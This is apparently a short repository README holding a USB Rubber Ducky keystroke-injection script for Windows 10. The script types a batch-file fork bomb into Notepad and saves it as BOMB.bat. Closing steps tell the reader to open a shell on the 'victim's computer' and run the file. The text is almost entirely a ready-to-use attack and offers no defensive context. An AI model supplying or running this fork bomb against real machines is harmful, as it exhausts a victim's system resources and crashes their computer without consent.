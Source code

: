 # Rubber-Ducky-Forkbomb-2.0-WIN-10
An updated Forkbomb Script

DELAY 500
GUI r
DELAY 200
STRING notepad
DELAY 200
ENTER
DELAY 200
STRING :s
ENTER
STRING start %0
ENTER
STRING goto :s

DELAY 300
CONTROL s
DELAY 700
STRING BOMB.bat
DELAY 200
ENTER
DELAY 200
ALT F4
DELAY 200

---> After you ran the script 
   -> Open shell on your victim's computer ant type in:
   -> cd /Users/type_in_victims_name/Desktop
   -> to check if file on desktop type in : dir
   -> Type in: BOMB.bat     to execute the file
